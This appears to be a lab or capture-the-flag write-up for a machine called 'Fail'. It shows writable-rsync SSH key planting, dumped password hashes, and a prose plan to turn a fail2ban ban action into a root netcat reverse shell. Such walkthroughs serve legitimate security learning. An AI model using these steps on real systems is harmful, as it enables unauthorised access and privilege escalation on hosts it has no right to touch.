








# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap -sS -p1-65535 -Pn 192.168.178.126
Nmap scan report for 192.168.178.126
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

There are just 2 ports were opened, so the point is rsync. Look at to [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#manual-rsync)

# Rsync attack

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ nc 192.168.201.126 873
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT

```

Use nc to list the share things. Then we can know the username is fox.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ rsync -av --list-only rsync://192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 17:51:59 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile

```

Use list only to find all things at this share folder. Look at HackTrick again, that say can upload some content using rsync. Now try to generate ssh key.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/aaron/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/aaron/.ssh/id_rsa
Your public key has been saved in /home/aaron/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:mcBT8qcPYpK97OpDIC3wCN+1Br+BIFy8wGu1VJopMKQ aaron@aacai
The key's randomart image is:
+---[RSA 3072]----+
|*.o.... .        |
|*=.+=..+         |
|EB=*o=+.. .      |
|+o*ooo=o =       |
|.o .o.+oS        |
|    .+.o o       |
|   .  o   .      |
|    ..           |
|   .oo.          |
+----[SHA256]-----+
```


Then use rsync to transfer the file.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh 
```





List folder again.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av --list-only rsync://fox@192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2023/08/10 08:01:03 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile
drwx------          4,096 2023/08/10 07:59:05 .ssh
-rw-------          2,590 2023/08/10 07:59:05 .ssh/id_rsa
-rw-r--r--            565 2023/08/10 07:59:05 .ssh/id_rsa.pub
-rw-------         11,646 2023/08/10 07:40:49 .ssh/known_hosts
```


But right now can't login to machine with fox. Need to transfer pub file to fox's folder.


```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ cat id_rsa.pub >> authorized_keys
                                                                                    
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh     
sending incremental file list
./
authorized_keys

sent 774 bytes  received 38 bytes  324.80 bytes/sec
total size is 15,366  speedup is 18.92

```

Right now try to login again.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ cat id_rsa.pub >> authorized_keys
                                                                                    
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh     
sending incremental file list
./
authorized_keys

sent 774 bytes  received 38 bytes  324.80 bytes/sec
total size is 15,366  speedup is 18.92
                                                                                    
┌──(aaron㉿aacai)-[~/.ssh]
└─$ ssh -i id_rsa fox@192.168.201.126                    
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
```

Yep it's work.



# PE

## Information Collection

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                             
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=101(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=102(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=103(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=104(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=105(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=999(systemd-coredump) gid=999(systemd-coredump) groups=999(systemd-coredump)
uid=9(news) gid=9(news) groups=9(news)

╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd                                                                                                                             
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd                                                                                                                                  
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd                                                                                                                              
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04

╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 112 Nov 19  2020 /etc/rsyncd.conf                                                                           
[fox]
    path = /home/fox
    comment = fox home
    uid = fox
    gid = fox
    read only = no
    list = yes
-rw-r--r-- 1 root root 1044 Mar 15  2019 /usr/share/doc/rsync/examples/rsyncd.conf
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz

-rw-r--r-- 1 root root 37 Nov 19  2020 /etc/rsyncd.secrets
fox:f1bddf02cd53fab415c1b46853072f6a

```

We found the user fox have another group named of `fail2ban`, also there are a service running at server. And also fail2ban is running as root.

```bash
fox@fail:/tmp/linux-x86_64$ ps -ef | grep "fail2ban"
root     13489     1  0 00:46 ?        00:00:00 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
fox      13496  1048  0 00:46 pts/0    00:00:00 grep fail2ban

fox@fail:/tmp/linux-x86_64$ ls /etc/fail2ban/
action.d       fail2ban.d  jail.conf  paths-arch.conf    paths-debian.conf    README.fox
fail2ban.conf  filter.d    jail.d     paths-common.conf  paths-opensuse.conf
fox@fail:/tmp/linux-x86_64$ 

```

There is a readme file for fox.

```bash
fox@fail:/tmp/linux-x86_64$ cat /etc/fail2ban/README.fox 
Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!
fox@fail:/tmp/linux-x86_64$ 

```

And it told us fail2ban will restart each 1 min, change action file can do someting.



Only ssh service enabled in jail.conf





In these capture, we can see that if we make 2 failed login attempts in a 10 minutes interval, we will be banned for 1 minute, and the ban action is determined in iptables-multiport configuration file which is located in action.d folder

So the attack scenario will be to change the configuration file of iptables-multiport.conf file in /etc/fail2ban/action.d/ and instead of blocking the IP with iptables we will put our netcat reverse shell. Then, we will wait 1 minute for the fail2ban service to restart, and then make 2 failed login attempts to ssh purposely so that the ban action kicks of and we get the reverse shell.




Then save and try to login with any password.



Finally get the root rev shell.

